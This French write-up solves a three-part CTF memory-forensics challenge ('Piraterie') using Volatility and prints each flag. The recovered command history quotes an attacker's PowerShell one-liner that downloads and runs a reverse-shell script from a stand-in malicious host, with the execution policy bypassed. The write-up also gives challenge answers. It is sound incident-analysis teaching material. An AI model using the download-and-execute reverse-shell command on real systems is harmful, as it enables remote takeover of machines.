

# Piraterie

## Épisode 1 - 512 pts

> Vous venez d'être embauché en tant  qu'analyse sécurité dans votre nouvelle entreprise. Encore ému par cette nouvelle, on vous affecte à votre première mission. 
>
>  Votre client du jour s'est fait piraté. Heureusement, il a eut la  présence d'esprit de ne pas éteindre la machine compromise et vous  fournit un dump mémoire.
>
>  Essayez de trouver ce qu'a pu faire le pirate.
>
>  Fichier : https://bit.ly/3sOcnRS (~2Go) 
>
>  Artiste : `@Eagleslam`

Règle n°1 : quel que soit le challenge, toujours commencer pas un strings :

```
$ strings dump.raw | grep PHACK
PHACK_Windows7.pxe
"PHACK{STEP_1-IC4nD0Wh4TuD0}" 
"PHACK{STEP_1-IC4nD0Wh4TuD0}"
```

Et le défi est classé *hard*...


## Épisode 2 - 512 pts

> Il semble que le pirate ait réussi à récupérer des informations confidentielles qui étaient visibles sur le bureau.
>  Validez cette hypothèse et retrouvez cette information.
>
>  Même fichier que l'épisode 1 (https://bit.ly/3sOcnRS) 
>
>  Artiste : `@Eagleslam`

Bon ce coup-ci on va sans doute devoir lancer `volatility`. On commence par lancer l'analyse de l'image qui permettra de choisir le profile.

```
$ volatility -f dump.raw imageinfo
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x86_23418, Win7SP0x86, Win7SP1x86_24000, Win7SP1x86
                     AS Layer1 : IA32PagedMemoryPae (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/ribt/defis/phack/forensic/piraterie/dump.raw)
                      PAE type : PAE
                           DTB : 0x185000L
                          KDBG : 0x82b40c28L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0x82b41c00L
             KUSER_SHARED_DATA : 0xffdf0000L
           Image date and time : 2021-02-20 23:46:58 UTC+0000
     Image local date and time : 2021-02-21 00:46:58 +0100
```

On va choisir le 2e profile proposé, celui-ci fonctionne souvent pour des machines sous Windows 7. Pour vérifier que c'est le bon profile on peut par exemple chercher l'historique des commandes `cmd` :

```
$ volatility -f dump.raw --profile=Win7SP0x86 cmdscan
Volatility Foundation Volatility Framework 2.6.1
**************************************************
CommandProcess: conhost.exe Pid: 4604
CommandHistory: 0x3c2750 Application: powershell.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x84
**************************************************
CommandProcess: conhost.exe Pid: 4604
CommandHistory: 0x3e1d60 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 4 LastAdded: 3 LastDisplayed: 3
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x58
Cmd #0 @ 0x3e2e80: ping my-none-ethical-hacking-server.thief.org
Cmd #1 @ 0x3e2fe0: cd "C:\Users\Public\Documents\hidden"
Cmd #2 @ 0x3c2658: IEX (New-Object Net.WebClient).DownloadString(\"http://my-none-ethical-hacking-server.thief.org/reverse-shell.ps1\")
Cmd #3 @ 0x3e30a8: powershell -ep Bypass -file ".\reverse-shell.ps1"
Cmd #5 @ 0x330030: ?
Cmd #18 @ 0x300030: ?
Cmd #36 @ 0x3b00c4: =?>?;???;
Cmd #37 @ 0x3dd038: <?;?????;?;

**************************************************
CommandProcess: conhost.exe Pid: 3884
CommandHistory: 0x131d60 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 13 LastAdded: 12 LastDisplayed: 12
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x58
Cmd #0 @ 0x127428: whoami
Cmd #1 @ 0x12ebe0: pwd
Cmd #2 @ 0x12ec10: dir
Cmd #3 @ 0x127440: cd ..
Cmd #4 @ 0x12d580: cd Desktop
Cmd #5 @ 0x111de8: cd Mes-vms.fr/Desktop
Cmd #6 @ 0x12ec30: di
Cmd #7 @ 0x12ec40: dir
Cmd #8 @ 0x130570: echo "Got U fucker !!!!" > .Pwned
Cmd #9 @ 0x135ec8: echo "PHACK{STEP_1-IC4nD0Wh4TuD0}" >> .Pwned
Cmd #10 @ 0x12d5e0: rm .Pwned
Cmd #11 @ 0x12d600: systeminfo
Cmd #12 @ 0x137278: echo "PHackCTF Rocks!"
Cmd #36 @ 0x1000c4: ?????
Cmd #37 @ 0x12d038: ???????

**************************************************
CommandProcess: conhost.exe Pid: 3048
CommandHistory: 0x321d60 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 1 LastAdded: 0 LastDisplayed: 0
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x58
Cmd #0 @ 0x326e98: C:\Users\Mes-vms.fr\Downloads\winpmem_mini_x86.exe C:\Users\Mes-vms.fr\Downloads\dump.raw
[...]
```

On retrouve le flag de l'étape 1 et on voit qu'on a le bon profile et que la personne a volontairement téléchagé et exécuté un script Powershell. Lançons un scan de tous les fichiers que l'on va stocker dans un fichier texte car il va beaucoup nous servir :

```
$ volatility -f dump.raw --profile=Win7SP0x86 filescan > files.txt
```

Le flag nous parle du Bureau, voyons voir ce qu'on y trouve :

```
$ grep Desktop files.txt 
0x000000007ce4ae68      1      1 R--rw- \Device\HarddiskVolume1\Users\Mes-vms.fr\Desktop
0x000000007d10ca70      1      1 R--rw- \Device\HarddiskVolume1\Users\Mes-vms.fr\Desktop
0x000000007d1b71a8      1      1 R--rw- \Device\HarddiskVolume1\Users\Mes-vms.fr\Desktop
0x000000007d258778      7      0 R--rwd \Device\HarddiskVolume1\Users\Mes-vms.fr\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Maintenance\Desktop.ini
0x000000007d258b68      7      0 R--rwd \Device\HarddiskVolume1\Users\Mes-vms.fr\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Accessories\Accessibility\Desktop.ini
0x000000007d30a1c0      1      1 R--rw- \Device\HarddiskVolume1\Users\Mes-vms.fr\Desktop
0x000000007d33e9b0      7      0 R--rwd \Device\HarddiskVolume1\Users\Mes-vms.fr\Desktop\desktop.ini
0x000000007d34f4f8      8      0 R--rwd \Device\HarddiskVolume1\ProgramData\Microsoft\Windows\Start Menu\Programs\Accessories\System Tools\Desktop.ini
0x000000007d34fd08      7      0 R--rwd \Device\HarddiskVolume1\ProgramData\Microsoft\Windows\Start Menu\Programs\Accessories\Desktop.ini
0x000000007d35ace8      7      0 R--rwd \Device\HarddiskVolume1\Users\Mes-vms.fr\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Accessories\System Tools\Desktop.ini
0x000000007d38b378      8      0 R--rwd \Device\HarddiskVolume1\ProgramData\Microsoft\Windows\Start Menu\Programs\Accessories\Tablet PC\Desktop.ini
0x000000007d38ba58      8      0 R--rwd \Device\HarddiskVolume1\ProgramData\Microsoft\Windows\Start Menu\Programs\Accessories\Accessibility\Desktop.ini
0x000000007d38ce50      8      0 R--rwd \Device\HarddiskVolume1\ProgramData\Microsoft\Windows\Start Menu\Programs\Maintenance\Desktop.ini
0x000000007d3c0f80      1      1 R--rw- \Device\HarddiskVolume1\Users\Mes-vms.fr\Desktop
0x000000007d3fc518      2      1 R--rwd \Device\HarddiskVolume1\Users\Public\Desktop
0x000000007d3fc7f0      2      1 R--rwd \Device\HarddiskVolume1\Users\Public\Desktop
0x000000007d3fcac8      2      1 R--rwd \Device\HarddiskVolume1\Users\Mes-vms.fr\Desktop
0x000000007d3fcda0      2      1 R--rwd \Device\HarddiskVolume1\Users\Mes-vms.fr\Desktop
0x000000007ee66570      7      0 R--rwd \Device\HarddiskVolume1\Users\Mes-vms.fr\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Accessories\Desktop.ini
0x000000007ee668a8      7      0 R--rwd \Device\HarddiskVolume1\Users\Public\Desktop\desktop.ini
0x000000007fc9af80      8      0 R--rwd \Device\HarddiskVolume1\Windows\Web\Wallpaper\Characters\Desktop.ini
0x000000007fca7260      8      0 R--rwd \Device\HarddiskVolume1\Windows\Web\Wallpaper\Landscapes\Desktop.ini
0x000000007fca79d8      8      0 R--rwd \Device\HarddiskVolume1\Windows\Web\Wallpaper\Architecture\Desktop.ini
0x000000007fd21900      8      0 R--rwd \Device\HarddiskVolume1\Windows\Web\Wallpaper\Nature\Desktop.ini
0x000000007fd3c908      1      1 R--rw- \Device\HarddiskVolume1\Users\Mes-vms.fr\Desktop
0x000000007fd44e00      8      0 R--rwd \Device\HarddiskVolume1\Users\Mes-vms.fr\AppData\Roaming\Microsoft\Windows\SendTo\Desktop.ini
0x000000007fe2f5f0      8      0 R--rwd \Device\HarddiskVolume1\Windows\Web\Wallpaper\Scenes\Desktop.ini
```

Aucun fichier particulier et pourtant "des informations confidentielles étaient visibles sur le bureau" 🤔

Cherchons le fond d'écran !

```
$ grep -i wallpaper files.txt 
0x000000007d10b440      7      0 RWD--- \Device\HarddiskVolume1\Users\Mes-vms.fr\AppData\Roaming\Microsoft\Windows\Themes\TranscodedWallpaper.jpg
0x000000007fc9af80      8      0 R--rwd \Device\HarddiskVolume1\Windows\Web\Wallpaper\Characters\Desktop.ini
0x000000007fca7260      8      0 R--rwd \Device\HarddiskVolume1\Windows\Web\Wallpaper\Landscapes\Desktop.ini
0x000000007fca79d8      8      0 R--rwd \Device\HarddiskVolume1\Windows\Web\Wallpaper\Architecture\Desktop.ini
0x000000007fd21900      8      0 R--rwd \Device\HarddiskVolume1\Windows\Web\Wallpaper\Nature\Desktop.ini
0x000000007fe2f5f0      8      0 R--rwd \Device\HarddiskVolume1\Windows\Web\Wallpaper\Scenes\Desktop.ini
```

On récupère le `.jpg` :

```
$ volatility -f dump.raw --profile=Win7SP0x86 dumpfiles -Q 0x000000007d10b440 -n -D ./
Volatility Foundation Volatility Framework 2.6.1
DataSectionObject 0x7d10b440   None   \Device\HarddiskVolume1\Users\Mes-vms.fr\AppData\Roaming\Microsoft\Windows\Themes\TranscodedWallpaper.jpg
```

Bingo !




## Épisode 3

> Sachant ce qui a été dérobé, il faut maintenant retrouver le malfrat. 
>  Retracez son parcours et retrouvez l'IP ainsi que le port de connexion qu'il a utilisé pendant son attaque. 
>  
>  Le flag est de la forme PHACK{...} avec le résultat de `IP:PORT` encodé en base 64. 
>  
>  Même fichier que l'épisode 1 & 2 (https://bit.ly/3sOcnRS) 
>
>  Artiste : `@Eagleslam`

Aucune hésitation sur la commande à effectuer :

 ```
$ volatility -f dump.raw --profile=Win7SP0x86 netscan
Volatility Foundation Volatility Framework 2.6.1
Offset(P)          Proto    Local Address                  Foreign Address      State            Pid      Owner          Created
[...]
0x7f191890         TCPv6    :::49153                       :::0                 LISTENING        820      svchost.exe    
0x7fc2fcd0         TCPv4    -:49478                        172.217.22.142:443   CLOSED           3040     firefox.exe    
0x7fc64008         TCPv4    10.0.2.15:49461                185.13.37.99:1337    ESTABLISHED      4440     powershell.exe 
0x7fc9a008         TCPv4    -:49480                        172.217.22.142:443   CLOSED           3040     firefox.exe
[...]
 ```

Une seule connexion est établie par un `powershell.exe` : `185.13.37.99:1337`. Le flag est donc `PHACK{MTg1LjEzLjM3Ljk5OjEzMzc=}`.


### Conclusion

Un peu déçu par ce challenge extrêmement simple où il n'a fallu utilisé que les trois commandes les plus courantes de `volatility` sans avoir à investiguer du tout. C'était sans conteste la plus grosse manne de points à gagner facilement.